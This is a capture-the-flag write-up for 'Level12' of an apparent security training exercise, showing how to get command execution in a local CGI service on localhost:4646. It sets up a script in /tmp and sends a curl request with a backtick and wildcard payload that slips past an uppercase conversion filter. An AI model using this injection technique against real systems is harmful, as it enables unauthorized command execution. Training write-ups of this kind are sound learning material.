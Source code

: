 # Level12

## Research

level12.l uses CGI on localhost:4646, it seems to take 2 arguments. Argument x will be put in uppercase and will be executed thanks to the \`\` quotes. Argument y seems to be useless for our purpose.

We saw in a previous level that we can pass parameters to CGI. So let's try to pass getflag.

Problem: if we pass just getflag, the regex will turn it into GETFLAG and the command won't be run properly. We need to find a way of passing a command without it being transformed in uppercase. Maybe we can run a script instead of a command. 
Using wildcards will prevent the regex to turn /tmp/ into /TMP/ wich doesn't exist.

```
echo "getflag" > /tmp/GETFLAG
touch /tmp/CC
chmod 777 /tmp/GETFLAG
```
```
curl localhost:4646/?x="`/*/GETFLAG>/*/CC`"
```

This does not work, it launch getflag without the appropriate rights...

1h30 later with lot of different useless tries...
It was not the good quotes, and weird to do it like this, it is cleaner to do the > part into the script.
https://stackoverflow.com/questions/6697753/difference-between-single-and-double-quotes-in-bash
https://www.howtogeek.com/howto/29980/whats-the-difference-between-single-and-double-quotes-in-the-bash-shell/

#@ Solution

```
cat /tmp/GETFLAG
#!/bin/bash
getflag > /tmp/flag

touch /tmp/flag
chmod 777 /tmp/GETFLAG

curl localhost:4646?x='`/*/GETFLAG`' 
```
Gives us the flag.
